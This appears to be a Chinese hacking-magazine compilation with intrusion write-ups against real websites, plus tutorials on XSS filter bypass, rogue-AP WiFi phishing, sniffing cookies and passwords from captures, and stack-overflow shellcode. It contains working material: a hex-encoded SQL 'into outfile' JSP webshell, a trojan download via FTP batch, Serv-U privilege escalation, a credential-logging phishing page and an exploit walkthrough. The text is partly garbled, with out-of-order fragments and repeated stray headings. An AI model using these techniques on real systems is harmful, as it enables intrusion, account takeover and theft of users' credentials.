将木马文件保存为 **z.txt**，如图22。然后访问 z.txt 看看我们的木马到底被改成了什么样子。不看不知道，一看吓一跳啊，查看导出的 txt 文件（因为文件中有 “<” 和 “>” 的原因，所以没有显示，只能查看网页源文件获得）和原文件中的代码对比，如图23，原文件中的 `"\\"` 变成了 `"\\\\"`，自然是不可能正确执行上传命令了。


结合前面的经验，确定服务器对 `"\\"` 作了过滤，那我们就想办法绕过这种限制吧。既然两个 `"\\"` 变成了四个 `"\\"`，那么一个会不会变成两个呢？带着这种想法，修改木马原代码相关语句如下（看其中的 “\” 是 1 个哦）：

```jsp
<%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());//%>
```

转为 16 进制后执行导出语句：

```text
'fd=~i' union select 1,2,3,4,5,'0x3c25696628726571756573742e676574506172616d657465722822662229213d6e756c6c29286e6577206a6176612e696f2e46696c654f757470757453747265616d286170706c69636174696f6e2e6765745265616c50617468285c292b726571756573742e676574506172616d65746572282266222929292e777269746528726571756573742e676574506172616d6574657228227422292e67657442797465732829293b253e' into outfile 'd:\web\z.txt' /*
```

包进行上传，如图5所示。

上传成功后也会把绝对路径暴出来，如图6所示。登录进去没有发现 UPLOAD 标签的不要抱怨，是因为你当前登录的权限不够，再破其它用户吧！第二，把 WAR 包上传到服务器上以后，点击 “Deployment” 标签，把上传的 WAR 包从 “Deployable” 放到 “Deployed” 里，然后点 “Apply”，如图7所示。

最后再确认一下，点选 “Confirm” 按钮，如图8所示，可以在 RESULT 标签看到部署成功后的结果，如图9所示。到此结束了，访问咱们的 WebShell 吧，如图10所示。


> 编辑点评：如果入侵的网站的安全水平超越了自己的黑客知识范围，在想法用尽却毫无进展时，暴力破解就是必须的了。虽然赤裸。

## 西线无战事


## 西经无战事


## 西线无战事


## 西线无战事


返回 IE 中查看 www.test2.cn/1.exe（因为当前用户目录是在 WEB 目录下，所以下载的文件也就存在了这里），如图29，木马成功下载，执行后肉鸡上线了，如图30。


### 四、深入

通过测试目标站2，发现了 com1、com2、com3、com4 这几个可以暴出 WEB 物理路径的目录，但是在搞目标站的时候却没有这几个目录，路径暴出也基本没有可能。继续回到入侵目标2之前的思路，在肉鸡查找有用信息，如图31。

- 1. 尝试找到站点的 WEB 后台，无果，难道是删除了？没有深究。
- 2. 尝试找 tomcat 的后台，无果，肯定是删除了。
- 3. 尝试找到站点的上传页面，还是没有找到，我晕，难道这就是传说中的“点背”？

本来以为拿下目标2就可以轻松获得目标站的权限，看起来这次要从长计议了。隐约觉得我和目标站的权限只有一张纸的距离，但是我怎么就找不到这张纸的破绽之处呢？再回到目标2中仔细观察，希望发现一点有用的信息，最终把注意力全部放在了目标2的 WEB 路径上，**F:\tomcat_**（这里是目标站2城市名的汉语拼音）**\v2\Webapps\Root\** 这个 WEB 存放路径是不是统一的呢？换句话说就是：只要我们换下路径中的城市名和盘符，是不是就可能猜到目标站的 WEB 路径呢？值得一试。

重新打起精神，猜解目标站路径，因为这个注入点无法在“穿山甲”中读取除了 c:\boot.ini 的其它文件，所以只好再用导出 WEBSHELL 的办法，一个个导出，然后再上网站中去测试。还好结果和我的预想没有太大出入，在将木马导出到 F:\tomcat_

为保守起见，还是导出为 .txt 文件，如图24。然后访问 zz.txt，这次没有意外，确实变成了两个“\”，然后执行语句导出为 jsp 文件，如图25。成功得到 SHELL，如图26（图26中数字6的位置已经是我们的木马文件，所以不显示）。

接着成功上传 FTP 批处理文件，如图27，然后回到 CMDSHELL 中执行 FTP 批处理命令，**z.jsp?cmd=ftp -s:D:\WEB\FTP.TXT**，如图28。


图32

mubiao（目标站城市名的汉语拼音）_v2\Webapps\Root\z.jsp 时，成功得到了这只珍贵的 SHELL，如图32，目标站是开了终端的，直接加用户进去了，如图33。

接下来又随便搞了几个同样的站，大多因为 WEB 路径设置得太统一而沦陷，而那些幸免于难的站都是 *nix 类的服务器，因为这类服务器既暴露不出路径也猜不到路径，至于原因我就不知道了。依次在各个服务器管理员的桌面上写个提醒文件，告诉他漏洞所在，让他尽快修补吧。


### 五、写在后面

本次入侵没有什么新的技术，都是些老的东西重新翻了出来，大家不要见笑啊，就当是帮大家复习以前的功课了。倒是昨天在啊D的站上逛时看到的一句话很有道理：“破坏并不会带来太多的好处，善意的提醒，管理员还会感激万分，何乐而不为？”，我很受用，不知道各位看官有何感想。

> 编辑点评：我猜作者上辈子是个画家，这辈子还以截图为乐，一篇文章有 33 张图。不过这样也好，对菜鸟来讲是会看得明白的。作者入侵时的思路及细节的注重复现（像猜测文件路径、过滤了 `\` 等等），以及后续的处理，这些都是值得赞赏的。

## 渗透某某江湖

从本文了解入侵渗透的一般过程


### 一、事情起因

因为老婆喜欢玩一个江湖，而且也玩了很长一段时间了，这几天没什么事，就想对这个江湖进行一次渗透（在这次渗透过程中走了很多弯路，也遇到了很多问题，希望对大家有所帮助）。在这里感谢我的朋友：一点点、爱国人士还有紫夜。

### 二、主攻开始

打开某某江湖的主页，如图1所示。人是相当的不少，有论坛，打开一看是动网 7.0 的论坛，这个版本安全性还是不错的，只有尝试下载论坛的数据库了。

```text
data/dvbbs7.mdb
data/%23dvbbs7.mdb
data/995511.mdb
data/995511dvbbs7.mdb
```

都不对，后来才知道数据库都不在 WEB 目录里面，这是后话了。江湖程序相对来说没有什么注入漏洞，这个就不用测试，看来只有旁注了。

打开 114 查询站，查询出来 5 个域名，如图2所示，有一个是企业站，其它的都是江湖站。江湖站的所有论坛数据库都测试了一下，没有找到，看企业站吧！企业站一般都有在线编辑器，尝试在网站里面添加 edit、editor、ewebeditor 都找到目录。

看了一下管理系统，觉得应该是挺精的，明显的注入点没有，


## 西线无战事


找到一搜索框，测试后发现有搜索型注入漏洞，抓包得到地址。用工具暴用户名和密码都只能暴出来第一位，当时真的很郁闷。

这时好友爱国人士上线了，他用手工暴也只能暴出第一位来，然后我们就想着社工一下管理员吧，也许能得到 FTP 账号密码什么的，就用 google hack 搜索了一番，得出他在一个公路网站上面有注册账号，如图3所示。

当时想，只要得到这个网站的权限，应该就能社工进去那个企业站。用 google hack 搜索：`site:xxxx.com inurl:asp?`，还真得到了个注入点，用 啊D 检测一下，竟然是 SA 权限，如图4（注：这张图片是最新的，管理员已经把权限降低了）。

当时心里高兴呀（人品终于暴出来了），执行命令，无法执行！？列目录，无法列！？猜测出来了管理员账号和密码，有 4 个，只有 1 个在 cmd5 网站破解成功。进入后台，如图5，是普通管理员，不是超级管理员。超级管理员密码破解出来也登录不上，可能是 IP 限制了吧！

- 有 ewebeditor 在线编辑器，相关目录有：
- Ewebeditor：无数据库目录，无管理员登录页面
- ewebeditor2：无数据库目录，无管理员登录页面
- ewebeditor3：无数据库目录，有管理员登录页面（这个版本一看就知道用户名和密码存放在 ASP 文件里面，就像我们所想到的大马一样）

还是无法得到 WEBSHELL，当时心里真的很急，得到了这么多信息都得不到 WEBSHELL，这怎么可能呢？当时也太晚了，关机下线休息。第二天早上，继续再找注入点，又找到一个，也是 SA 权限，这次可以列目录，成功得到下面网站的目录。


用 GETWEBSHELL 备份得到一句话连接木马，WEBSHELL 到手，但是不支持 FSO。突然想起是 SA 权限，就用 HDSI 成功执行了开启 FSO 的命令，查看源文件得到数据库连接账号和密码，查询数据库得到对方的账号和密码，如图6所示。

破解出来账号和密码到企业站后台登录，提示无法进入，登录邮箱也提示密码不对。用 QQ 查询出来另一个邮箱 `wuxxx@163.com` 登录也失败，如图7所示。把对方的信息整理了一下，得到如图8所示的信息。


用“忘记密码”取回密码，输入对方的账号和出生月日，但试着把这个密码做网易的安全码，成功，如图9、图10所示。

## 二、峰回路转


进入对方邮箱，没有得到什么可以利用的信息，都是一些自己给自己发的传奇私服之类的登录器，还有就是这个邮箱和他所使用的 QQ 是关联的，但是猜不出 QQ 提示答案，如图11所示。


渗透到这一步又卡在了这里，心里真不是滋味，但不能放弃。这时好友“一点点”又扔给我一个旁注查询站（不同的查询站，查出来的结果不同，不同的域名，查出来的结果也不同），这次查询又多查出来一个企业站，如图12所示。


打开一看还是一样的管理系统，再抓包，搜索型注入，这次成功得到了管理员账号和密码，CMD5 也破解了出来，赶快登录后台，如图13所示。


汗，不支持 FSO，当然也不支持数据库备份。发现有 EWEBEDITOR 在线编辑器，不过目录是 admin/edit/，默认数据库已经更改，管理员登录页面被删掉了，只能插入一句话。我和“一点点”、“爱国人士”都插入一句话没成功，弄了 2 个多小时也没有搞定。

这时再让紫夜帮忙，几分钟后给了我们一个 WEBSHELL，问他怎么拿到的，他说可以插入成功，当时把我们郁闷得去撞墙。后来分析，我们插入一句话没有成功是因为我们插入在“系统管理”里面的“网站配置”里了，因为这种方法网上都公布了 N 久，这套程序正好被程序员过滤掉了这种方法。紫夜是通过“发布公告”插入成功的，因为当时他把数据库下载后进行了查看，我们当时就是太粗心了。

现在得到了一句话，当然就是上传大马了，但是不支持 FSO，如图14所示。


当时就想，ASP 不支持，PHP 不可能也不支持吧？就上传了 PHP 大马，但是只可以浏览网站的目录，Windows 目录进不去。用 ASP 木马自带的扫描工具扫描了一下端口，得到以下信息：**21、80、1433、3306、43958** 端口被开放，用 ASP 版的 SERV-U 提权工具，输入命令 `netstat -an >f:\wwwroot\网站客户\四季茶轩\xxx.txt`，没有成功。打开 PHP 大马里的 SERV-U 提权工具，终于搞定。开启 FSO 权限，把 F 盘设置成完全控制，如图15。


找到“梦绕江湖”目录，留一 WEBSHELL，找到江湖的管理员地址，直接打开成功进去，连用户名和密码都不用输入，如图16所示。


### 四、最后结局

一切都已经搞定，但是没有拿到服务器的最高权限，心里还是不太痛快，浪费了我几天时间。这时心里想，不可能每个管理员都登录 FTP 管理吧？于是上传了一个开 3389 的注册表文件，用 SERV-U 提权工具加载 REG 文件，然后连接对方的 3389 端口，还是连接不上！难道是有防火墙的原因？或者是管理员做了端口限制？拿出 SCAN 扫描器一阵扫描，扫出了一个 5233 端口，连接后发现，果然是终端口，如图17所示。

下载对方的数据库，然后通知管理员。此次渗透没有什么新的技术，渗透就是这么简单，关键就是思路、心细、不放弃！我希望可以认识更多朋友，一起学习，一起进步，一起跨向更安全的互联网。


> **编辑点评：**
>
> 我对文章中的一句话不理解：“用 HDSI 成功执行了开启 FSO 的命令”。我估计是作者对 web 目录的权限做了更改，并不是开启 FSO，希望作者弄清一些基本概念。

> LCX：这期在这墨迹延伸一下，“高手专栏”并不是真只要高手的文章，你符合专栏的题目都是可以投稿的，我们这个专栏开了一年多，已经推出过以下的一些题目：

- vb 在入侵中的作用
- 我在入侵中注意的细节
- 跨站、入侵中的批处理
- 入侵过程中用到的小工具
- 内网渗透
- 入侵中的经验总结

当然，以后还会继续增加！这个专栏基本上是我和 NF 写了大半的稿子，这期休息一下。如果有好的思路我们会继续写更好的文章，当然也希望更多的作者来稿。

## Tamper Data 插件在 XSS 测试中的小技巧

从本文你可以学到如何利用 Tamper Data 进行 XSS 攻击

图 AnOnYMouS

Tamper Data 是个 Firefox 的插件，它可以截获普通网页、Ajax 应用程序及 Flash 的 HTTP 请求，适用于分析请求流程、请求参数、请求数据、重定向 URL。在 XSS 中，我们主要使用它截获数据包、修改后再提交的功能。

首先我们找到页面有 XSS 问题的地方，用正常的手段去测试，如图1所示。这时候会看到代码被正常地过滤了，显示正常，如图2所示。


接下来我们使用 Tamper Data 来直接修改数据包，从 FF 的工具菜单开启 Tamper Data，然后点击“Start Tamper”，如图3。

接着随便在标题和内容输入些东西，提交，Tamper Data 就会弹出提示，我们点击“Tamper”，如图4。现在我们看到了刚才那个页面提交的所有数据表单的内容，article_contents 就是表单内容，可以看到我们刚刚输入的内容已经被转化过了，如图5所示。将 article_contents 的内容改成我们的 XSS 语句，然后提交，如图6所示。接着将 article_contents 的内容改成我们的 XSS 语句，然后提交，随后弹出提示框，如图7所示，我们将“Continue Tampering?”的对钩取消，然后点击“Submit”。


可以看到，我们已经绕过了程序的内容转换，XSS 成功……如图8所示。

> **编辑点评：** 很多“所见即所得”的编辑器都会自动转化你提交的内容，这时候要用一些工具，来绕过它们。这样的工具有很多，最出名的算是 paros-3.2.13，本人习惯用的是 achilles，不过看起来 Tamper Data 插件更方便一些。


## piaO 摘

- 社会的进步是每个人都看得见的，九年前无线路由还是新鲜玩意儿，到现在无线 AP 已经遍布城市和电器设备上，这标着 WiFi 就好像很没面子一样。无线用户终端带来的安全问题也暴增，但无线的安全问题可不是容易解决的。至少到目前为止，想要设计一个无线网络还是很容易的。我们无线专题讲到现在，纠察们都学会了吧，别就去展身手吧，要跟上时代的步伐哦。


- 1. **中国电信酝酿推出手机操作系统，核心基于 Android**

有消息人士透露，中国电信在酝酿推出自己的手机操作系统，“预计也是在 Android 系统上进行开发”，这也是中国电信在推出移动品牌“天翼”后，对移动业务做出的又一举措。

运营商制定符合自身需求的手机操作系统并非新鲜事，此前中国移动已经在去年年底推出了 OMS 开放式手机操作系统，其内核为 Linux，并基于以 Google 为代表的 Android 开放源代码基础上修改而成。

据悉，中国移动推出的 OPhone 手机将会采用 OMS 操作系统，其可应用于 TD-SCDMA 3G 网络，基于该操作系统的手机将于今年一季度投放市场。截至到目前，中国电信推出的手机操作系统何时商用还无具体预期。

凤凰点评：据说中国电信很早就心痒欲动了，现在消息算是证实了，也许不久的将来我们就能用自己的“Android”系统了。不过在这之前，还有一个令人振奋的消息，HTC 联合沃达丰发布了 HTC Magic，也就是传说中的 G2，将会在今年 4 月份上市，我们马上就可以体验中文版的 Google 手机了！

- 2. **黑客破解大赛落幕，Linux 未被攻破**

国外媒体报道，最近在加拿大召开的全球黑客大会落下了帷幕，除了安装 Linux 的索尼 Vaio 笔记本电脑安然无恙外，另外一台安装了 Vista 的富士通笔记本在最后一天也被攻破。这项全球黑客顶级赛事名为“CanSecWest PWN 2 OWN”，主办方提供了三台运行不同操作系统的笔记本供参赛者实施攻击，分别是 Linux、Mac OS X 和 Vista。获胜者将获得 2 万美金的奖金及被攻破的笔记本。不过随着时间的推移，奖金也在不断缩水，每过一天将减少一半。

凤凰点评：又是同样的结果，最后坚挺的依然是 Linux，这样的结果也在预料之内，这并不是说 Linux 没有漏洞，但至少说明，它比其它的操作系统要安全。

- 3. **VMWare：手机我也不放过**

大家都知道，赫赫有名的 VMWare 是在 Windows/Mac/Linux 上的商业虚拟机，最近发布的 MVP（Mobile Virtualization Platform），看名字就知道是在移动设备平台上的虚拟软件了。根据说明，这款软件可以让你在智能手机上自由选择不同的已经安装的操作系统（手机也玩双启动？）。有人以 Nokia N800 Internet 终端为例，同时加载了 Windows CE 和 Android 两个系统。

凤凰点评：手机的硬件发展速度不亚于 PC，而手机却有着无与伦比的广阔市场，以后谁能保证手机不会像现在的电脑一样用呢？

- 4. **把四种 Linux 桌面系统搬到 Android 手机上**

Androidfanatic.com 的管理员 Ghostwalker 先推出了一个 Debian For Android 的安装程序和导入程序，可以让 Debian 系统运行在 Android 设备上，也就是 G1 手机。整个安装过程大约须花费 10 分钟时间，之后就能在 G1 上安装庞大的 Debian 软件仓库的软件，而且手机原有的 Android 功能并不会消失。因为 Debian 已经提供了对 Android 底层架构的支持，所以这不能算是移植。此后，Ghostwalker 又贴出一个简明的指南，讲解如何让 Gnome、KDE、LXDE 和 IceWM 桌面运行在 Android 手机上。

凤凰点评：这意味着什么？这意味着你可以像用一个普通 Linux 系统一样地用 Android 了，并且可以完全利用 Android 在移动设备上的巨大优势。华硕官方已经证实，在去年年底就已经开始安排工程师研究 Android 平台上网本事宜了，当它们碰撞到一起，会是什么样子呢？

## 无线钓鱼能手——Airsnarf

□ AnOnYMouS

**从本文可以学到：**

怎样通过 Airsnarf 在无线环境下钓鱼

Rogue AP（恶棍 AP），即是对无线路由器自身系统进行修改，或使用具有可建立无线 AP 功能的网卡（使用 Zydas、Atheros 等芯片组），来模拟成一个无线 AP，且在上面放置一套或多套钓鱼页面，欺骗连接到此热点的用户输入敏感信息的无线热点。

Rogue AP 的行为特征是完全模拟一台无线路由器，当有客户端连接时，自动分配 IP、网关及 DNS，同时客户端所有的 DNS 请求都会被转至预先设计好的钓鱼页面。Airsnarf 为 The Shmoo 小组的作品，是一个恶棍 AP 的设置工具，接下来让我们瞧瞧这个程序。获得它可以直接从 The Shmoo 的网站下载 airsnarf 的包，然后终端输入如下命令：

```bash
#### tar zxvf airsnarf-0.2.tar.gz
#### cd ./airsnarf-0.2
#### ./airsnarf
```

这样即可运行，但是在运行 airsnarf 之前，必须确保你的 Linux 环境下，iptables、httpd、dhcp、sendmail、Net::DNS Perl module 等组件都已安装配置完毕。

如果朋友们觉得在 Linux 下配置这些东西较为苦手，那我建议大家直接使用 Backtrack3 来建立一个恶棍 AP。Backtrack3 已经帮我们配置好了一切，我们只需要进入 BT，然后进行少许小改动即可，我接下来的操作全部在 Backtrack3 环境下完成，大家要看好哦。

- 1. 从 BT 菜单选中 airsnarf 打开终端，如图1、图2。
- 2. `bt airsnarf-0.2 # kedit airsnarf`
  修改 airsnarf 文件，找到“/etc/init.d/sendmail restart”，

## 窗外

将其删掉或改为在其前面加 # 注释掉这行。因为我们不需要使用 sendmail 来钓鱼。

```
3、bt airsnarf-0.2 # kedit cfg/airsnarf.cfg

修改 cfg/airsnarf.cfg 文件，会发现内容如下：

ROGUE_SSID="ap name"          <--- 此为恶棍 AP 的 SSID，可改为具有一些诱惑性的名称
ROGUE_NET="192.168.1."        <--- 此为恶棍 AP 的 IP 地址，改为 192.168.1.254
ROGUE_GW="192.168.1.254"      <--- 此为恶棍 AP 的网关地址；和恶棍 AP 的 IP 相同即可
ROGUE_INTERFACE="ath0"        <--- 此为恶棍 AP 所要使用的网卡设备，ath0 代表 Atheros 的设备
#export ROGUE_SSID ROGUE_NET ROGUE_GW ROGUE_INTERFACE
```

```
4、bt airsnarf-0.2 # kedit etc/cgi.src

修改 etc/cgi.src 文件，找到 “$mailprog = '/usr/sbin/sendmail';” 这行；把从这行开始一直到 “close(MAIL);” 的内容全部删除，并改为如下设置：

open (MYFILE, '>>/tmp/airsnarf_pwds.txt');
foreach $key (keys(%FORM)) {
print MYFILE "$key = $FORM{$key}\n";
print MYFILE "------------------------------\n";
}
```

```
5、bt airsnarf-0.2 # kedit etc/dhcpd.src

修改 etc/dhcpd.src 文件，设置 DHCP 的相关信息，内容如下：

ddns-update-style ad-hoc;
subnet 192.168.1.0 netmask 255.255.255.0 {
  option subnet-mask 255.255.255.0;
  option broadcast-address 192.168.1.255;
  option routers 192.168.1.254;
  option domain-name-servers 192.168.1.254;
  option domain-name "domain.com";
  range dynamic-bootp 192.168.1.3 192.168.1.50;
  default-lease-time 21600;
  max-lease-time 43200;
}
```

```
6、bt airsnarf-0.2 # kedit bin/airsnarf_dns.pl

修改 bin/airsnarf_dns.pl 文件，找到 “my ($ttl, $rdata) = (3600, '192.168.1.254');”，将里面的 IP 改为先前在第 2 步中所修改的恶棍 AP 的 IP，这里我们将它改为 192.168.1.254，如图 3。
```

- 7、bt airsnarf-0.2 # airsnarf

运行 airsnarf，启动程序，如全部配置正确的话，会看到如图 4 的信息。到这里恶棍 AP 已经完全搭建起来了，现在我们可以用另外一台电脑成功连接这个邪恶的 AP 热点了。连接成功并自动分配到 IP 及 DNS 之后，我们随便输入个网址打开，便会看到如图 5 的这个 Airsnarf 初始界面，页面位置为 /cfg/html/index.html。

当我们输入信息之后，便会跳转到另外一个事先设置好的页面，关键点在于此时我们刚才输入的信息已经被记录在了 /tmp/airsnarf_pwds.txt 中，如图 6。

其实我们可将 Airsnarf 的默认页面修改得更具诱惑性，诸如“欢迎来到 NoHack 咖啡厅，在您享用本店免费 WIFI 之前，请填写一张用户调查表”，或“欢迎使用中国移动 WIFI 热点，在使用前，请输入您的手机号及密码进行验证”，随后受骗用户就会掉入陷阱，泄露自己的重要信息。

邪恶的讲解到此为止，现在大家在外出需要使用无线上网的时候，是不是会对那些没有加密的 AP 热点留有一些戒备之心了呢？其实恶棍 AP 的应用远不止一个钓鱼页面这么简单……

PS：本文意在加强大家的安全意识，请不要用于非法用途。其实 Airsnarf 还有 firmware for the WRT54G 的版本，可以直接将 WRT54G 路由器的系统变成完全的钓鱼工具，感兴趣的朋友可以进行相关搜索。

> 编辑点评：
>
> 无线环境并不神秘，其实我们在局域网中能做的事在无线网络中基本上都能做。诸如伪装钓鱼、DNS 欺骗这些，只要大家发挥你的想象力，没有什么不可能。

## 无线包裹加工站——假嗅宝物的 WifiZoo

图 AnOnYmOuS

**从本文您可以学到：**

- 怎样利用 cap 文件取得敏感信息

当你还把注意力都集中在关注破解 WEP 时，当你还沉浸于密码破解出来获得的成就感时，有没有想到你刚刚为了收集 Data（IVs），而使用 airodump-ng 制造出的那庞大的 cap 文件是另一个宝库呢？我想大多数在 BT 环境下破解密码的朋友，特别是使用 Live 环境的，在得到 WEP 密码之后，都会重启到 Windows 下面，急切地用刚刚获取的密码连接 AP，来享受蹭网的“快感”，殊不知你已经丢掉了另外一个宝库。

谁能想到为了收集 Data（IVs）而使用 airodump 产生的那庞大的 cap 文件，在你破解出密码后，还有更大的价值，这就是我接下来要给大家介绍的利用 WifiZoo 来挖掘宝库。

简单地说，**WifiZoo 是一个无线数据包分析程序，它将 CAP 文件中的明文信息（POP3、FTP、Cookie、MSN 聊天记录、SMTP）提取出来重新归档，以 WEB GUI 的方式呈现给我们，使我们可以更方便地使用。**

WifiZoo 是由 Python 编写的程序，运行环境为 *nix，包含在 BT3 中，当然你也可以使用 Ubuntu 来运行它。大家可以从 WifiZoo 的网站：http://www.wifizoo.info/ 下载 tar.bz2 包，版本有三种：1.3 白色界面版、1.3 黑色界面版、1.3 迷你版（对应 1024×600 分辨率的 Netbook）。可见作者还是相当用心的，从网站精悍的风格就可以知道这个程序的强大。

安装方法：将 tar.bz2 包解压至任意目录，确保你的 Linux 系统已经安装了 Python，然后进入解压目录，在终端输入 `python wifizoo.py`，回车，会显示出两行信息，随后是它的使用参数，相关信息如下。

```
root@Hacker-laptop:/pentest/wireless/wifizoo# python wifizoo.py
WifiZoo v1.3 - complaints to Hernan Ochoa (hernan@gmail.com)
Web interface design keith@killthepage.com
options:
 -i <interface>        直接使用网络设备实时抓包分析
 -c <pcap_file>        使用 cap 文件直接分析
```

我们这里直接使用 **-c** 参数来分析。在让 WifiZoo 加载 cap 文件之前，要先使用 airdecap 对用于破解 dump 下来的 cap 文件进行第一次加工，去除一些无关紧要的数据，只将精华留下。

```
airdecap-ng 的使用方法及参数如下：

usage: airdecap-ng [options] <pcap file>
Common options:
 -l            don't remove the 802.11 header    保留 802.11 头
 -b <bssid>    access point MAC address filter   访问点 MAC 地址过滤
 -e <essid>    target network SSID               目标网络 SSID
WEP specific option:
 -w <key>      target network WEP key in hex     目标网络的 WEP 密码（16 进制）
WPA specific options:
 -p <pass>     target network WPA passphrase     目标网络 WPA 密钥
 -k <pmk>      WPA Pairwise Master Key           PMK
```

举例：假设你破解时 dump 出的 cap 名（cap 的名字就是 airodump-ng -w 参数后面跟的文件名）为 nohack-02.cap，那么我们在终端输入：`root@Hacker-laptop:~# airdecap-ng -l -e Cisco -w 123456 nohack-02.cap`，注：`-e Cisco` 是指定目标的 SSID，`-l` 参数一定要加，`-w 123456` 即是你之前破解出的 WEP 密码。

回车运行后，会得到一个名为 nohack-02-dec.cap 的文件，这个文件就精简过了，从文件大小就可以看出，一般 dec 过的文件会比源文件体积减少一半或更多。

准备工作结束，我们开始使用 WifiZoo 来分析吧。在终端输入：`root@Hacker-laptop:/pentest/wireless/wifizoo# python wifizoo.py -c /root/nohack-02-dec.cap`，会看到如图 1 的信息，其中 GUI Serving 的位置是 `http://127.0.0.1:8000`，代理 IP 地址是：`127.0.0.1`，端口：`8080`。

随后就是一片一片的数据包头分析信息，不用理睬，让它慢慢分析。我们现在开启 Firefox，在地址栏输入 `http://127.0.0.1:8000`，便会看到 WifiZoo 的黑酷界面了，如图 2。

首先我们设置一下 Firefox 的代理设置，填入 WifiZoo 启动时提示的 `127.0.0.1:8080`，如图 3。

朋友们可能会问设置代理有什么用；因为接下来我们会发现，cap 中整理出来的各种网站的 cookie，按照 WifiZoo 建立的代理服务器，可以直接点击那些 cookie，并以那些 cookie 的所属身份进行登录，简单地说就是 cookie 替换！

设置好代理后，我们点击 **SSIDS(AP)List**，就可看到我们 cap 文件中包含的目标，如图 4。

还可看到该 AP 热点所包含的客户端的情况，及该 cap 文件所包含的各端口的数据包情况。点击 **BSSID-> Clients Graph** 及 **Stats**，如图 5、图 6。

好了，附加信息我们都看完了，接下来看 WifiZoo 锻造加工出的真正宝贝，首先是 Cookie，如图 7。接下来是 FTP 信息，如图 8。

最后是聊天记录，Content-Type 后面的就是内容了，如图 9，我们可以发现两条消息是：“NoHack~~~aha”及“测试完毕”。由于抓取的 cap 中并未出现 POP 及 SMTP 连接，所以也就没有相应的信息，感兴趣的朋友可以自行测试。

到此，大家会不会懊恼没有“深加工”一下曾经破解大量 WEP、WPA 密码时 Dump 出的那些 cap 文件呢？又会不会担忧自己蹭网的时候，一些明文信息也被别人用同样的方法获取到呢？希望读者朋友们通过此篇文章了解无线安全并不是单纯的破解密码，它同有线一样，涉及各个方面。

> P.S：本文忽略了破解 WEP 的步骤，cap 文件及密码 123456 都是在破解后所得，如果你还不会破解无线 WEP 密码，请先 Google 一下，还可以参考前几期的杂志，另外，WifiZoo 对于 WPA 加密同样有效。
>
> **编辑点评：**
> 这其实类似于无线网络中的嗅探，只不过把 cap 文件“废物利用”罢了。抓这么一个文件也不容易，既然拿到了跑出密码，就顺便“深加工”一下吧，说不定还能拿到个密码什么的呢。就算没有，也可以偷窥一下别人都在干嘛……不过，做人要厚道啊！

张宇首语：

MS 给了 2 个月的时间来强制升级 MSN 至 9.0，2 个月后版本全部失效，无法登录，一方面体现了 MS 的霸道，但另一方面也体现出了 MS 对安全越来越重视。对于我们来说，即是好事也是坏事。正所谓仁者见仁，智者见智！

## 漫话溢出Ⅱ

从本文您可以学到：

- 了解如何确定溢出点及编写简单 shellcode

栈溢出比较简单，流程也很清晰，大体可分为三个步骤：上膛、瞄准、射击。

在《漫话溢出Ⅰ》中，我们用溢出的方式破解了 stack_overflow.exe，在《Ⅱ》的结尾，我曾说 stack_overflow.exe 的漏洞利用远不止只是破解。是的，既然是溢出漏洞，我们就有机会获得对程序的控制权，不过具体的溢出与狙击的步骤还是有点区别，先瞄准，再上膛，最后射击。

### 瞄准

定位溢出点，思路很清晰，就是让程序出错，然后找到溢出点就行。为了更方便地找到溢出点，这里我们使用 Metasploit 中的两个工具 pattern_create.rb 和 pattern_offset.rb。当然，你也可以自己构造数据，然后通过报错信息和计算来定位溢出点。

首先执行如下命令：

```
pattern_create.rb 20 > input.txt
```

也许你不知道 pattern_create.rb 的功能，那么我们打开 input.txt 文件你就会明白了。input.txt 的内容为：“aA0Aa1Aa2Aa3Aa4Aa5Aa”。这里我们的参数是 20，实际上也可以是更大的数，不过已经知道缓冲区是 8 个字节，所以不必设置更大的参数。当然，这里只是演示，所以请大家假装不知道缓冲区的大小，谢谢合作哈。

Immunity Debugger 载入并运行 stack_overflow.exe，输入创建的 pattern，即“aA0Aa1Aa2Aa3Aa4Aa5Aa”，程序中断，如图 1 所示。可以看到，程序中断时 EIP 的值为 61413561，看到这个数字有感觉吗？它正是“a5Aa”。不要以为是“aA5a”，注意 Windows 的寻址方式是从高址到低址的，这说明我们输入的数据覆盖了函数返回地址，而这个返回地址又是不可访问的，因此程序会出错。思路很清晰，如果我们将函数返回地址覆盖为可访问的地址，更进一步说，将其覆盖为 shellcode 的地址，那么函数返回时就会跑去执行我们的 shellcode。

现在我们可以算出溢出点在第 16 个输入的字符的位置上，也就是第 17 至 20 个字符将会覆盖函数的返回地址，从而在函数返回时控制 EIP 的值。Metasploit 中 pattern_offset.rb 的功能正是定位溢出点，它与 pattern_create.rb 配合起来会使工作方便许多。当然，这里所需要的 pattern 字符串很短，结合 EIP 的值一眼就能看出溢出点的位置。当所需要的 pattern 很长时，这两个工具的作用就会突显了。

```
pattern_offset.rb 61413561
pattern_create.rb 16 > input2.txt
```

继续执行，程序输出如图 2 所示。

创建了一个长度为 16 的 pattern，保存在 input2.txt 中。当然，这里已经定位出了溢出点，其中的 16 个字符只是作为填充物使用，可以替换为其它的任意字符，只要长度为 16。

我们在这 16 个字符后再加 4 个字符，这 4 个字符便能覆盖函数返回地址。我们在这个 pattern 后追加“1234”，并将这个 pattern 连同追加的内容输入 stack_overflow.exe，可以观察到，程序中断时 EIP 的值为 34333231，即“1234”。这说明我们的推断是完全正确的，如图 3 所示。

### 上膛

下面我们就该找 shellcode 的地址了，这里要使用的方法是通过“jmp esp”定位到 shellcode。在函数返回时，ESP 一般都指向函数返回指令后相关的地址，因此如果把“1234”换成“jmp esp”的地址，并在后面添加我们的 shellcode，那么在函数返回时程序就会继续向下执行我们的 shellcode。

在 Immunity Debugger 中查看最基本的 ntdll 模块，搜索“jmp esp”指令，这里搜到的一个地址为 76E14A06，如图 4 所示。

下面我们来准备 shellcode。这里图个方便，用 Metasploit Web 中的 Payloads 模块来生成特定功能的 shellcode。我选择的是“Windows Execute Command”功能的 shellcode，填写相关参数，如图 5 所示。

点击“Generate”按钮，生成了可嵌入到 C 语言中使用的 shellcode，如图 6 所示。

下面我们整理下有关信息：填充物，16 个任意字符；“jmp esp”的地址：76E14A06；shellcode，如图 5 所示。把这三者依次结合起来，就基本完工了。由于这里生成的 shellcode 和“jmp esp”的地址都是十六进制的，而 stack_overflow.exe 的输入类型为普通字符，所以还要借助 UltraEdit、WinHex 这类软件转化一下，如图 7 所示。

# 图5 生成特定功能 shellcode 参数

```text
Windows Execute Command

Execute an arbitrary command

This module (#5773) was provided by vlad902, under the Metasploit Framework License (BSD).

Size: 113
Architecture: x86
Operating system: Windows

OPTIONS:
- EXITFUNC: seh
